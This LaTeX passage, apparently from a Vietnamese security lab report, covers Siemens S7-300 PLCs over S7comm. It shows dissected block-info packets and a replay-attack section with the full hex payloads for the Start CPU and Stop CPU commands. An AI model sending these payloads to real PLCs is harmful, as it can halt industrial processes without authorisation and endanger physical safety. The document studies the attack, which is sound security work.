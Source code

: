 \documentclass[../main.tex]{subfiles}
\begin{document}
\begin{enumerate}
\begin{verbatim}
S7 Communication
   ....
    Data [DB 1]
        Return code: Success (0xff)
        Transport size: OCTET STRING (0x09)
        Length: 8
        Block type: 0A (DB)
        Block number: 00001
        Filesystem: A (Active embedded module)
\end{verbatim}


Response:


\begin{verbatim}
S7 Communication
    . . .
    Data: (Block:[DB 1])
        Return code: Success (0xff)
        Transport size: OCTET STRING (0x09)
        Length: 78
        Block type: \x01 (Unknown Block type: 0x0100)
        Length of Info: 74
        Unknown blockinfo 2: 0x2200
        Constant 3: pp
        Unknown byte(s) blockinfo: 01
        0000 0001 = Block flags: 0x01, Linked
        Block language: DB (5)
        Subblk type: DB (10)
        Block number: 1
        Length load memory: 220
        Block Security: None (0)
        Code timestamp: Nov 18, 1999 00:00:00.000
        Interface timestamp: Nov 18, 1999 00:00:00.000
        SSB length: 20
        ADD length: 0
        Localdata length: 0
        MC7 code length: 128
        Author: 
        Family: 
        Name (Header): 
        Version (Header): 0.1
        Unknown byte(s) blockinfo: 00
        Block checksum: 0x0000
        Reserved 1: 0x00000000
        Reserved 2: 0x00000000
\end{verbatim}


Giống với các thông tin đã thu được từ script \texttt{scanBlock.py}.

\end{enumerate}


\subsection{4.3 Start/Stop PLC (Replay Attack)}
\label{sec:start_stop_plc}


Đây là kiểu \textbf{replay attack} điển hình nhắm vào PLC: tái sử dụng các gói S7comm đã bắt được khi TIA Portal thực hiện lệnh \textbf{Start CPU} / \textbf{Stop CPU} trên S7-300, mà không cần xác thực bổ sung trên kênh S7comm.

\subsubsection{Payload đã capture}


\begin{table}[H]
    \centering
    \footnotesize
    \begin{tabular}{|l|l|l|}
        \hline
        \textbf{Lệnh} & \textbf{Function code} & \textbf{Payload (hex)} \\
        \hline
        Start CPU & `0x28` (PLC Control / PI-Service `P\_PROGRAM`) & `0300002502f0803201000005000014000028000000000000fd000009505f50524f4752414d` \\
        \hline
        Stop CPU & `0x29` (PLC Stop) & `0300002102f0803201000006000010000029000000000009505f50524f4752414d` \\
        \hline
    \end{tabular}
\end{table}
\end{document}
